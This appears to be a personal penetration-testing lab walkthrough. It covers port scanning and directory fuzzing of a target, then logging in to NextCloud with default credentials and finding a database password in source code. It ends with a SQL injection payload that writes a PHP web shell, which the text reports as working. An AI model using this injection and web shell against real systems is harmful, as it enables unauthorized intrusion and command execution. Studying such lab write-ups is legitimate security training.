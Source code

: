 # Enumeration

`nmap -A -T4 -p- 192.168.152.147`

```
PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 78:2f:ea:84:4c:09:ae:0e:36:bf:b3:01:35:cf:47:22 (RSA)
|   256 d2:7d:eb:2d:a5:9a:2f:9e:93:9a:d5:2e:aa:dc:f4:a6 (ECDSA)
|_  256 b6:d4:96:f0:a4:04:e4:36:78:1e:9d:a5:10:93:d7:99 (ED25519)
111/tcp   closed rpcbind
139/tcp   closed netbios-ssn
443/tcp   closed https
445/tcp   closed microsoft-ds
17445/tcp open   http         Apache Tomcat (language: en)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Issue Tracker
30455/tcp open   http         nginx 1.18.0
|_http-title: W3.CSS
|_http-server-header: nginx/1.18.0
50080/tcp open   http         Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
|_http-title: W3.CSS Template
Aggressive OS guesses: Linux 5.0 - 5.14 (98%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (98%), Linux 4.15 - 5.19 (94%), Linux 2.6.32 - 3.13 (93%), Linux 5.0 (92%), OpenWrt 22.03 (Linux 5.10) (92%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (90%), Linux 4.15 (90%), Linux 2.6.32 - 3.10 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

## 17445

Appears to just be a ticketing app of some sort, but making a fake account allows us to grab a username
![](Images/Pasted%20image%2020250506130719.png)

Clinton we could change his password but I am unsure if that really accomplishes anything.

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.152.147:17445/FUZZ -fc 302
```
## 30455
We have some wacky looking sales page
![](Images/Pasted%20image%2020250506130448.png)


```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.152.147:30455/FUZZ
```
## 50080
We have another website but this one is for Pizza
![](Images/Pasted%20image%2020250506130533.png)

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.152.147:50080/FUZZ
```

```
images                  [Status: 301, Size: 244, Words: 14, Lines: 8, Duration: 4991ms]
cloud                   [Status: 301, Size: 243, Words: 14, Lines: 8, Duration: 42ms]
```

Navigating the /cloud gets us to a login page for `NextCloud` no vulnerabilities really come up. So test default creds `admin:admin` works for authentication.

![](Images/Pasted%20image%2020250506131833.png)

It appears to be a file server of sorts. Lets download the source content for the issue tracking web page. After digging through the source files we find that its connected to a backend DB server.

![](Images/Pasted%20image%2020250506132323.png)

Also appears to be the password to the DB system `issue_user:ManagementInsideOld797` but that isn't public facing. Lets see where this SQL code exists in the application.

![](Images/Pasted%20image%2020250506133112.png)

It doesn't appear to like our method we used. What if we changed it to post instead of GET.

![](Images/Pasted%20image%2020250506133157.png)

Looks like we have to inject something through a post request. I think we have to pass it a parameter to actually get it to check. So lets try Normal Priority.

```
POST /issue/checkByPriority?priority=Normal 
```

That works so we will have to test injection on that

![](Images/Pasted%20image%2020250506133726.png)

Lets try a simple into file web shell payload.

```
' union select '<?php echo system($_REQUEST["cmd"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

URL encode and send the post parameter.

![](Images/Pasted%20image%2020250506135241.png)

WebShell now works.









